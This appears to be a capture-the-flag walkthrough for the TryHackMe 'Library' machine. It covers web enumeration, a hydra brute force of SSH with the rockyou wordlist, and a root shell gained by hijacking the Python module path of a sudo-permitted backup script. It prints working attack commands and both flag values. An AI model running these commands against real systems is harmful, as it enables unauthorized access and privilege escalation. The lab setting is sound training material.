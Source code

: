 # Library

---

![Untitled](Library_images/Untitled.png)

---

# Enumeration

![Untitled](Library_images/Untitled%201.png)

![Untitled](Library_images/Untitled%202.png)

Open web browser and navigate to the target machine’s IP address

There is a blog post was posted on June 29th 2009 by user `meliodas` → This is a hint for a username to login through `ssh`

![Untitled](Library_images/Untitled%203.png)

Use `curl` to quick view the `robots.txt` file located on the http service from the machine

```
┌──(kali㉿kali)-[~/TryHackMe]
└─$ curl http://10.10.18.6/robots.txt                                               
User-agent: rockyou 
Disallow: /
```

→ Another hint at the `User-agent` which tells us to use the wordlist `rockyou.txt` to crack the `ssh` password with the previous user

# Exploit (Cracking password)

Use `hydra` to crack the password with the following command line

```
hydra -l meliodas -P ~/Downloads/rockyou.txt ssh://10.10.18.6 -t 4
```

- `meliodas`: username
- `~/Downloads/rockyou.txt`: wordlist file path
- `ssh://10.10.18.6`:type of cracking/brute-forcing + IP target
- `-t 4`:task number (faster)

After a few minutes → We found the password

![Untitled](Library_images/Untitled%204.png)

# Gain Access

Login `ssh` with previous credential

![Untitled](Library_images/Untitled%205.png)

Get the user flag

```tsx
meliodas@ubuntu:~$ ls -l
total 8
-rw-r--r-- 1 root     root     353 Aug 23  2019 bak.py
-rw-rw-r-- 1 meliodas meliodas  33 Aug 23  2019 user.txt
meliodas@ubuntu:~$ cat user.txt
6d488cbb3f111d135722c33cb635f4ec
```

# Privilege Escalation → root

```tsx
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

************bak.py************

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

As user `meliodas`, we don’t have the permission to write or modify the file → I create a new file `zipfile.py` at the same directory

```tsx
meliodas@ubuntu:~$ echo 'import os; os.system("/bin/sh")' > zipfile.py
```

Then execute it with `sudo`

```tsx
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
# cat /root/root.txt
e8c8c6c256c35515d1d344ee0488c617
```